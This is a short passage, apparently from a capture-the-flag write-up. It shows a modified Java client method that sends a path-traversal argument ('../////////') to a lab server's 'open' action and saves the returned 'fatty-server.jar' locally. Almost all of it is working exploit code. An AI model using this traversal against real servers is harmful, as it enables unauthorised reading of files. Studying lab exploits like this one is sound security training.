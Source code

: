 Modified code for file download

```java
import java.io.File;
import java.io.FileOutputStream;


  public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {  }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
      return "Error: Method '" + methodName + "' is not allowed for this user account";
    }

    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument("../////////");
    this.action.addArgument("fatty-server.jar");
    this.action.send(this.serverOutputStream);
    this.message = Message.recv(this.serverInputStream);
    this.response = new ResponseMessage(this.message);
    FileOutputStream fop = null;
    File file;
    String content = "";

    try {

        file = new File("fatty-server.jar");
        fop = new FileOutputStream(file);

        if (!file.exists()) {
            file.createNewFile();
        }
        byte[] contentInBytes = this.response.getContent();

        fop.write(contentInBytes);
        fop.flush();
        fop.close();

        System.out.println("Done");

    } catch (IOException e) {
        e.printStackTrace();
    } finally {
        try {
            if (fop != null) {
                fop.close();
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    if (this.response.hasError()) {
      return "Error: Your action caused an error on the application server!";
    }
    String response = "";
    return response;
  }
```
